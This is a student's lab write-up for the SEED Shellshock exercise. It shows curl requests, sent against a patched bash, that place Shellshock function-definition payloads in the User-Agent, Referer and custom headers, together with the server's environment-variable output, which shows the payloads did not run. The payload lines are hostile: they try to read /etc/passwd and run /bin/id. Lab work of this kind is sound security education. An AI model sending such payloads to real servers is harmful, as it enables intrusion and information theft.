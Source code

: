 ### Task 5:
In this task, I am using the patched bash. First, I went into getenv.cgi and changed the first line from /bin/bash_shellshock to /bin/bash. Then I repeated Task 3:
1. repeated Task 3.1:
```
[02/16/21]seed@VM:~/.../02_shellshock$ curl -A '() {echo "passwords";}; echo Content_type: text/plain; echo; /bin/cat /etc/passwd' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
*** ENVIRONMENT VARIABLES***
HTTP_HOST=www.seedlab-shellshock.com
HTTP_USER_AGENT=() {echo "passwords";}; echo Content_type: text/plain; echo; /bin/cat /etc/passwd
HTTP_ACCEPT=*/*
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SERVER_SIGNATURE=<address>Apache/2.4.41 (Ubuntu) Server at www.seedlab-shellshock.com Port 80</address>
SERVER_SOFTWARE=Apache/2.4.41 (Ubuntu)
SERVER_NAME=www.seedlab-shellshock.com
SERVER_ADDR=10.9.0.80
SERVER_PORT=80
REMOTE_ADDR=10.9.0.1
DOCUMENT_ROOT=/var/www/html
REQUEST_SCHEME=http
CONTEXT_PREFIX=/cgi-bin/
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
SERVER_ADMIN=webmaster@localhost
SCRIPT_FILENAME=/usr/lib/cgi-bin/getenv.cgi
REMOTE_PORT=55788
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
QUERY_STRING=
REQUEST_URI=/cgi-bin/getenv.cgi
SCRIPT_NAME=/cgi-bin/getenv.cgi
[02/16/21]seed@VM:~/.../02_shellshock$ curl -e '() {echo "passwords";}; echo Content_type: text/plain; echo; /bin/cat /etc/passwd' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
...
[02/16/21]seed@VM:~/.../02_shellshock$ curl -H temp:'() {echo "passwords";}; echo Content_type: text/plain; echo; /bin/cat /etc/passwd' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
...
```
The outputs were the same for all three.

2. repeated Task 3.2
```
[02/16/21]seed@VM:~/.../02_shellshock$ curl -H temp:'() {echo "passwords";}; echo Content_type: text/plain; echo; /bin/id' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
*** ENVIRONMENT VARIABLES***
HTTP_HOST=www.seedlab-shellshock.com
HTTP_USER_AGENT=curl/7.68.0
HTTP_ACCEPT=*/*
HTTP_TEMP=() {echo "passwords";}; echo Content_type: text/plain; echo; /bin/id
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SERVER_SIGNATURE=<address>Apache/2.4.41 (Ubuntu) Server at www.seedlab-shellshock.com Port 80</address>
SERVER_SOFTWARE=Apache/2.4.41 (Ubuntu)
SERVER_NAME=www.seedlab-shellshock.com
SERVER_ADDR=10.9.0.80
SERVER_PORT=80
REMOTE_ADDR=10.9.0.1
DOCUMENT_ROOT=/var/www/html
REQUEST_SCHEME=http
CONTEXT_PREFIX=/cgi-bin/
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
SERVER_ADMIN=webmaster@localhost
SCRIPT_FILENAME=/usr/lib/cgi-bin/getenv.cgi
```